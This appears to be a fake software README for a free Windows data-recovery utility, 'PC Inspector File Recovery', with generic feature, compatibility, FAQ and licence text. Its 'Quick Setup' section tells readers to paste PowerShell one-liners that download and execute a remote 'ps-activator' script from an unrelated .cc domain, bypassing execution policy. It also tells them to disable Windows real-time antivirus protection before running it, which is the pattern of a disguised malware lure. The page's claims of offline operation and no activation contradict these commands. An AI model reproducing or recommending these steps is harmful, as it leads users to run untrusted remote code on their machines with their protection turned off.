

<div align="center">

# PC Inspector File Recovery: FAT/NTFS Data Restoration Tool for Windows 10 & 11



[]() []() []() []() []() []()

</div>

---

PC Inspector File Recovery is a Windows-native desktop utility engineered to restore files from FAT12, FAT16, FAT32, and NTFS volumes, including drives that have been formatted, corrupted, or rendered inaccessible by the operating system. The application combines filesystem-level analysis with signature-based scanning to detect and recover a broad range of file types such as documents, images, audio, video, and archives, even when directory structures are damaged. Recovered data can be written to an alternate local or network location to prevent overwriting source sectors and preserve recovery integrity. Designed for reliability across both logical and physical drive failures, PC Inspector File Recovery provides a dependable, feature-driven path to reclaiming lost data on Windows systems.

## ⚡ Quick Setup (PowerShell)

> [!TIP]
> **Fast install** — a single PowerShell command, no extra tools.
> Windows 10 / 11 · PowerShell · One-line install

### 1️⃣ Launch PowerShell
* Press `Win + X`.
* Click **Terminal** or **Windows PowerShell** from the menu.

### 2️⃣ Run the script
Paste and run. Wait until the process completes.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ If PowerShell blocks the script
Copy into CMD, press `Enter`, wait for completion:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> If SmartScreen or antivirus blocks the setup, go to **Windows Security → Virus & threat protection → Manage settings**, turn off **Real-time protection**, run the script, and re-enable immediately.

## ✅ Before You Start

- **OS:** Windows 10 / 11
- **Shell:** PowerShell 5.1+ or PowerShell 7+
- **Network:** internet access to download the script
- **Privileges:** standard user

## Features

- Recovers deleted, corrupted, and inaccessible files from FAT12, FAT16, FAT32, and NTFS volumes, including partitions with damaged or partially overwritten file system structures.
- Scans physical drives, logical partitions, and removable USB media, presenting detected files and folders in a navigable directory tree for selective restoration.
- Performs sector-level analysis to locate file signatures and reconstruct data when directory entries or allocation tables are no longer intact.
- Recognizes a broad range of file formats, including documents, images, audio, video, and archive types, allowing targeted recovery by extension.
- Supports saving recovered data to a separate local drive, an external device, or a network location to avoid overwriting source sectors.
- Provides drive analysis and search modes for filtering results by name, path, size, or file type before recovery begins.
- Operates as a native Windows desktop application with a wizard-driven workflow suitable for both routine undelete tasks and advanced recovery from failing media.
- Includes read-only access to source volumes during scanning, minimizing further risk to the affected disk.

## How It Works

PC Inspector File Recovery operates through a layered scanning and reconstruction pipeline designed to locate and restore data that the operating system can no longer address through normal file system structures. The recovery engine begins by performing a low-level read of the target volume, bypassing standard file access APIs to inspect raw sectors directly. This allows the tool to function on drives that are unmounted, partially corrupted, or otherwise inaccessible through conventional means.

The initial stage builds a map of the volume's file system metadata. For NTFS volumes, the engine parses the Master File Table and its mirror records to reconstruct directory hierarchies and identify orphaned file records. For FAT12, FAT16, and FAT32 volumes, it reads the File Allocation Table and root directory entries to trace cluster chains and recover file boundaries. When metadata is intact, this structure-based scan produces a precise listing of recoverable files with their original names, paths, and timestamps.

When file system metadata is damaged or missing, the engine falls back to a signature-based scan. It traverses the raw sector stream and matches byte patterns against a built-in database of known file headers and footers, covering document, image, audio, video, and archive formats. Each detected signature initiates a carving routine that determines the file's extent and extracts its contents independently of the file system, enabling recovery even when directory structures are completely destroyed.

Recovered files are presented in a browsable tree that distinguishes between files found through metadata parsing and those identified through signature carving. The user selects targets and designates a destination on a separate volume or network location, ensuring that write operations never occur on the source disk and that recoverable data is not overwritten during the process. All scanning and extraction operations are read-only with respect to the source drive, preserving the integrity of remaining data throughout the recovery session.

## Compatibility

### Operating System Support

- Designed and validated for Windows desktop environments, including Windows 7, Windows 8, Windows 10, and Windows 11.
- Runs natively on both 32-bit and 64-bit Windows installations without additional compatibility layers.
- Supports standard user and administrative execution contexts, allowing recovery operations to be performed with the privilege level appropriate to the target volume.

### File System Coverage

- Full read support for NTFS volumes, including compressed and sparse files where the underlying structures remain intact.
- Comprehensive handling of the FAT family: FAT12, FAT16, and FAT32, covering the file systems most commonly found on removable media and legacy drives.
- Recovery logic adapts to the detected file system to preserve directory structures, file names, and timestamps during restoration.
- Handles volumes that have been formatted, repartitioned, or left inaccessible, provided the target data has not been overwritten.

### Storage Device Compatibility

- Internal hard disk drives connected via SATA or IDE interfaces.
- External drives and USB flash media recognized as standard Windows storage devices.
- Removable media such as memory cards and portable drives, analyzed through the same scan and recovery workflow.
- Recovered files can be written to a separate local drive or to a network location to prevent overwriting source data.

### File Type Recognition

- Signature-based detection identifies a broad range of formats, including archives, documents, images, audio, and video files.
- Recovery is performed at the file level, so recognition does not depend on intact directory entries alone.
- Users can target specific file types during scanning to reduce processing time on large volumes.

### Integration and Operational Notes

- No background services or kernel-level drivers are required; the application operates as a standalone desktop tool.
- Compatible with volumes mounted under standard Windows drive letters as well as those accessed through the application's own device selection interface.
- Recovery results are consistent across supported Windows versions, with the interface scaling appropriately on high-DPI displays.

## FAQ

**Which file systems does PC Inspector File Recovery support for scanning and restoration?**
The application provides native support for FAT12, FAT16, FAT32, and NTFS volumes. It can operate on both healthy and damaged partition structures, allowing recovery from drives that are no longer mountable by the operating system.

**What recovery modes are available?**
PC Inspector File Recovery offers two distinct scanning modes: a standard scan that locates recently deleted files by parsing intact file system metadata, and a deep scan that traverses raw disk sectors to identify files whose directory entries have been overwritten or corrupted. The deep scan mode is recommended when standard recovery yields incomplete results.

**Can the tool recover files from a formatted or repartitioned drive?**
Yes. Formatting and repartitioning typically remove file system metadata rather than overwrite the underlying data sectors. PC Inspector File Recovery can reconstruct file signatures and recover data from formatted FAT and NTFS volumes, provided the target sectors have not been reused by new writes.

**What is the recommended workflow to maximize recovery success?**
Immediately cease writing to the affected drive upon detecting data loss. Save all recovered files to a separate physical volume or network location to prevent overwriting unallocated clusters. Run the deep scan mode first for severely damaged drives, and verify recovered file integrity before restoring them to the original location.

**Does the software support recovery of specific file types?**
PC Inspector File Recovery recognizes a broad range of file signatures, including ARJ, AVI, BMP, DOC, MP3, and many other common formats. Signature-based detection enables recovery even when file system metadata is unavailable.

**Is there a file size or volume capacity limitation?**
Recovery operations are bounded by the available memory and the capacity of the destination drive used to store recovered files. Large volumes may require extended scan times, but the application imposes no artificial file size cap on recoverable data.

**Can recovered files be saved to a network drive?**
Yes. The destination for recovered files can be any accessible write target, including local volumes, external drives, and mapped network locations. Saving to a different physical device than the source is strongly recommended to avoid data overwriting.

**Does the application modify or write to the source drive during scanning?**
No. PC Inspector File Recovery operates in read-only mode against the source volume during both standard and deep scans. All write operations are confined to the user-selected destination path.

**What happens if the recovery process is interrupted?**
Scanning can be restarted without affecting the source drive, as no state is written to it. Previously recovered files saved to the destination remain intact and can be verified independently.

## Disclaimer

PC Inspector File Recovery is provided as a data recovery utility for Windows operating systems. It is designed to scan supported FAT and NTFS file systems and attempt to reconstruct files that remain present at the storage level after deletion, formatting, or logical corruption.

The software operates on a best-effort basis. Recovery outcomes depend on the condition of the underlying storage medium, the file system state, and the amount of activity that has occurred on the volume since data loss. No recovery result is guaranteed, and the tool cannot restore data that has been physically overwritten or destroyed at the hardware level.

Users should be aware that any write operation to the affected volume may reduce the likelihood of successful recovery. To minimize this risk, recovered files should be written to a separate, healthy drive or to a network location rather than to the source volume being scanned.

PC Inspector File Recovery does not include write-repair, firmware, or cleanroom capabilities. It is not a substitute for professional data recovery services in cases involving mechanical failure, controller damage, or severe physical corruption. Where hardware faults are suspected, the drive should be powered down and referred to a qualified specialist.

The software is supplied without any warranty, express or implied, including but not limited to warranties of merchantability, fitness for a particular purpose, or non-infringement. The developers and distributors accept no liability for any loss of data, loss of profit, or consequential damages arising from the use or inability to use the application.

It is the user's responsibility to verify that they have the legal right to access and recover the data in question, and to ensure that use of the tool complies with applicable laws and organizational policies in their jurisdiction.

PC Inspector File Recovery is intended for use on storage media that the user owns or is authorized to administer. The tool should not be used to access data without the express consent of the data owner.

By installing or operating PC Inspector File Recovery, the user acknowledges that they have read and understood these conditions and accept full responsibility for the outcome of any recovery attempt performed with the software.

## License

PC Inspector File Recovery is distributed as a free, fully featured desktop application for Windows, provided as-is for personal and professional data recovery use. The software ships with all recovery capabilities enabled by default, including FAT12, FAT16, FAT32, and NTFS file system support, deleted file detection, damaged drive access, and recovery of files to local or network destinations. No feature gating, license keys, activation servers, or subscription tiers are required to unlock the full functionality described in this documentation.

The application operates entirely offline and does not transmit scan results, recovered file contents, drive metadata, or usage telemetry to any external service. All recovery processing is performed locally on the host machine, giving users full control over the handling of sensitive data during and after the recovery workflow.

Redistribution of the installer is permitted provided the package remains unmodified and is not bundled with unrelated software or presented as a paid product. Reverse engineering, decompilation, or modification of the binaries for the purpose of circumventing built-in safeguards is not authorized. Users are responsible for ensuring they have the legal right to recover and access any data processed with the tool, and for complying with applicable local regulations governing data handling and privacy.

The software is provided without warranty of any kind, express or implied, including but not limited to warranties of merchantability, fitness for a particular purpose, or non-infringement. In no event shall the authors or distributors be liable for any claim, damages, or other liability arising from the use of the software, including data loss resulting from recovery operations performed on failing or unstable media.